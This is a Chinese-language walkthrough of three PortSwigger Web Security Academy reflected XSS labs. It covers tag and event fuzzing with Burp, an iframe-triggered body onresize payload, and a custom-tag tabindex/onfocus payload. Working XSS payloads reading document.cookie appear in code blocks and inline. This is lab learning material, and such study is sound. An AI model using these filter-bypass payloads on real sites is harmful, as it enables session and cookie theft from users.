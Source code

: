 **目录：**

[TOC]

#### 1. Reflected XSS into HTML context with nothing encoded

很简单的一道题，有手就行

#### 2. Reflected XSS into HTML context with most tags and attributes blocked

题目说过滤了大多数标签，去找找还有什么标签可以使用。

直接用burp爆破tag和event（看状态码）

得到了tag为`body`，event为`onresize`

`onresize`要在窗口大小被改变的时候触发

用题目的exlpoit，在body部分构造一个iframe，然后onload事件在触发的时候改变大小

payload:(因为是在body部分，记得提前转码，好像不用转码也能过)

```html
<iframe src="https://acc91f9b1fff1f7980540718002a0084.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
<iframe src="https://ac321fb51e21f4e780230d4600710017.web-security-academy.net/?search=<body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
```

#### 3. Reflected XSS into HTML context with all tags blocked except custom ones

* 交互情况

过滤了除过自定义标签之外的所有HTML标签，但可以使用自定义标签。

自定义标签无法使用`onload`属性，但是onfocus可以使用，即聚焦触发（点击，而且可以多次），所以为了聚焦，还得需要给其聚焦的属性--`tabindex`

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

`<xss tabindex=1 onfocus="alert(document.cookie)">`

但是聚焦的话，需要一个可以聚焦的对象，所以需要（可显示的）文字

`<xss tabindex=1 onfocus="alert(document.cookie)">aaaaa`

>**补充：经过仔细实测，不用（可显示的）文字也能聚焦触发，即对着前（或后）相应的位置按下即可**

payload:(exploit server)

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">aaaaa';
</script>
```
